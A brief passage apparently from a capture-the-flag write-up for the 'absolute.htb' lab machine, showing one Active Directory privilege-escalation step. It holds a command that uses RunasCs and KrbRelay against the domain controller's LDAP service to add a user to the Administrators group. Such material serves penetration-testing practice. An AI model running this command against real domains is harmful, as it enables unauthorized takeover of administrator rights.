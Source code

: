 LDAP session established successfully

- Now add the winrm_user to the Administrators group:

```bash
.\runascs.exe winrm_user -d absolute.htb MadeUpPassword -l 9 "C:\users\winrm_user\Documents\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 8F5DF053-3013-4dd8-B5F4-88214E81C0CF -port 10 -add-groupmember Administrators winrm_user"

```

![image67](../resources/4e4cfc78d78a493e9be291765f17ced3.png)
